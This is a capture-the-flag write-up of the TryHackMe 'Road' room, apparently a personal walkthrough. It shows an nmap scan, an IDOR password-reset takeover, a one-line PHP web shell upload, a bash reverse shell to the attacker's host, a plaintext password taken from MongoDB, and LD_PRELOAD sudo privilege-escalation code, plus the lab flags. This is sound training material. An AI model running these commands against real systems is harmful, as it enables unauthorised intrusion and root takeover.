









| Category          | Details                                                                |
|-------------------|------------------------------------------------------------------------|
| 📝 **Name**       | [Road](https://tryhackme.com/room/road)                                |  
| 🏷 **Type**       | THM Challenge                                                          |
| 🖥 **OS**         | Linux                                                                  |
| 🎯 **Difficulty** | Medium                                                                 |
| 📁 **Tags**       | Burp, IDOR, arbitrary file upload, MongoDB, sudo, env_keep+=LD_PRELOAD |

## Task 1: Submit Flags!

### What is the user.txt flag?

#### Scan target with `nmap`
```
┌──(magicrc㉿perun)-[~/attack/THM Road]
└─$ nmap -sS -sC -sV -p- $TARGET
Starting Nmap 7.98 ( https://nmap.org ) at 2026-01-16 13:44 +0100
Nmap scan report for 10.82.156.161
Host is up (0.053s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 26:bb:da:47:8f:05:73:fa:f8:4c:61:01:6a:31:e4:e3 (RSA)
|   256 f7:8e:af:ce:50:ab:7e:00:06:f2:c4:d0:72:10:85:83 (ECDSA)
|_  256 db:c2:28:e6:53:d8:00:72:5c:6b:75:73:c5:2f:e2:63 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Sky Couriers
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 44.93 seconds
```

#### Access admin panel using `MERCHANT CENTRAL` button on main page


#### Register new user


#### Log in to admin panel


#### Discover `admin@sky.thm` user is mentioned in `Profile` page


#### Update password using `Reset password` 

We are resetting password to capture HTTP request in Burp, for later tampering.

#### Set username parameter to `admin@sky.thm` in the captured password reset HTTP request

`HTTP 200 OK` has been returned by server meaning that application might be vulnerable to IDOR (Insecure Direct Object References).

#### Use changed password to log in as `admin@sky.thm`


#### Confirm IDOR vulnerability by successfully accessing admin dashboard


#### Prepare script for arbitrary command execution
```
┌──(magicrc㉿perun)-[~/attack/THM Road]
└─$ echo '<?php system($_GET["cmd"]); ?>' > cmd.php
```

#### Upload `cmd.php` as `Profile Image`

Server returned `Image saved.` meaning that, most probably, we have discovered arbitrary file upload vulnerability. Now we need to find place where uploaded files are stored. In HTML code of `/v2/profile.php` find a comment which could be worth checking:
```
</div>	
<!-- /v2/profileimages/ -->
<script type="text/javascript">
```

#### Lookup uploaded `cmd.php` in `/v2/profileimages/` 
```
┌──(magicrc㉿perun)-[~/attack/THM Road]
└─$ curl http://$TARGET/v2/profileimages/cmd.php?cmd=id  
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
We were able to located `cmd.php` and confirm that we could execute arbitrary command on target.

#### Start `nc` to listen for reverse shell connection
```
┌──(magicrc㉿perun)-[~/attack/THM Road]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
```

#### Spawn reverse shell connection
```
┌──(magicrc㉿perun)-[~/attack/THM Road]
└─$ CMD=$(echo "/bin/bash -c 'bash -i >& /dev/tcp/$LHOST/4444 0>&1'" | jq -sRr @uri)
curl http://$TARGET/v2/profileimages/cmd.php?cmd=$CMD
```

#### Confirm foothold gained
```
connect to [192.168.130.56] from (UNKNOWN) [10.82.156.161] 53860
bash: cannot set terminal process group (813): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ip-10-82-173-155:/var/www/html/v2/profileimages$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

#### Capture user flag
```
www-data@ip-10-82-173-155:/$ cat /home/webdeveloper/user.txt
63191e4ece37523c9fe6bb62a5e64d45
```

### What is the root.txt flag?

#### Enumerate MonoDB
```
www-data@ip-10-82-156-161:/$ mongo
MongoDB shell version v4.4.29
<SNIP>
> show databases
admin   0.000GB
backup  0.000GB
config  0.000GB
local   0.000GB
> use backup
switched to db backup
> show tables
collection
user
> db.user.find().pretty()
{
        "_id" : ObjectId("60ae2661203d21857b184a76"),
        "Month" : "Feb",
        "Profit" : "25000"
}
{
        "_id" : ObjectId("60ae2677203d21857b184a77"),
        "Month" : "March",
        "Profit" : "5000"
}
{
        "_id" : ObjectId("60ae2690203d21857b184a78"),
        "Name" : "`webdeveloper`",
        "Pass" : "BahamasChapp123!@#"
}
{
        "_id" : ObjectId("60ae26bf203d21857b184a79"),
        "Name" : "Rohit",
        "EndDate" : "December"
}
{
        "_id" : ObjectId("60ae26d2203d21857b184a7a"),
        "Name" : "Rohit",
        "Salary" : "30000"
}
```
We were able to find `webdeveloper:BahamasChapp123!@#`, we could try to reuse them gain access over SSH.

#### Use discovered credentials to access target over SSH as `webdeveloper` user
```
┌──(magicrc㉿perun)-[~/attack/THM Road]
└─$ ssh webdeveloper@$TARGET
<SNIP>
webdeveloper@ip-10-82-156-161:~$ id
uid=1000(webdeveloper) gid=1000(webdeveloper) groups=1000(webdeveloper),24(cdrom),27(sudo),30(dip),46(plugdev)
```

#### List allowed sudo commands
```
webdeveloper@ip-10-82-156-161:~$ sudo -l
Matching Defaults entries for webdeveloper on ip-10-82-156-161:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, env_keep+=LD_PRELOAD

User webdeveloper may run the following commands on ip-10-82-156-161:
    (ALL : ALL) NOPASSWD: /usr/bin/sky_backup_utility
```
`env_keep+=LD_PRELOAD` represents a critical `sudo` misconfiguration because it allows users to load arbitrary shared libraries when executing commands with elevated privileges.

#### Exploit `sudo` misconfiguration
```
webdeveloper@ip-10-82-156-161:~$ \
{ cat <<'EOF'> privesc.c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
 
void _init() {
        unsetenv("LD_PRELOAD");
        setresuid(0,0,0);
        system("/bin/bash -p");
}
EOF
} && gcc -w -fPIC -shared -nostartfiles -o privesc.so privesc.c && \
sudo LD_PRELOAD=./privesc.so /usr/bin/sky_backup_utility
root@ip-10-82-156-161:/home/webdeveloper# id
uid=0(root) gid=0(root) groups=0(root)
```

#### Capture root flag
```
root@ip-10-82-156-161:/home/webdeveloper# cat /root/root.txt
3a62d897c40a815ecbe267df2f533ac6
```
